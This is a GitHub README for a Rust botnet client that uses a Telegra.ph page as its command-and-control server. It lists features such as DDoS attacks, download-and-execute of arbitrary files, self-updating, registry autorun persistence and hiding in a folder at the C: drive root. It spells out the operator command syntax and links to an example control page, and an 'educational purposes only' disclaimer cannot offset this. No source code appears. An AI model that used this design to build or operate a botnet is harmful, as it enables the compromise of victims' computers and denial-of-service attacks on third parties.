 # Rust Botnet
Example botnet client which uses Telegra.ph as a C&C server.

## Features
* DoS attack feature.
* Loader & Executer of any files.
* Update feature.
* Program adds itself to autoload register and moves to hidden folder in C:/ drive root.
* Botnet deletion by command.

Notice, that this is not production ready version. 
There are many bugs which are waiting for a fix.

## Example & List of commands
Example of a C&C server is located [here](https://telegra.ph/Cls93sog103ekfSfKTEsto294kfaozwkd394-rktkcsd-krfasseegpe11-03-20).
Botnet uses the next syntax - `command{split}value` or `command{split}value{sep}value's_value`
### Available commands
* `download_exec{split}LINK_TO_FILE` - download and run a file which is located at `LINK_TO_FILE`.
* `ddos{split}TARGET{sep}TIME` - ddos a `TARGET` for `TIME` seconds.
* `upgrade{split}LINK_TO_FILE{sep}VERSION` - download and install an update which is located at `LINK_TO_FILE`. Update will be installed only if botnet's file version is lower than `VERSION`.
* `stop{split}` - you should use that command to stop the previous command execution.
* `delete_botnet{split}` - delete the botnet and it's registry notes from the client's PC.
* `exit{split}` - close botnet's executable file.

## Help
If you need any help at all, feel free to post a issue.
 
## Disclaimer
This program must be used for educational purposes only!
I am not responsible for anything you do with it.

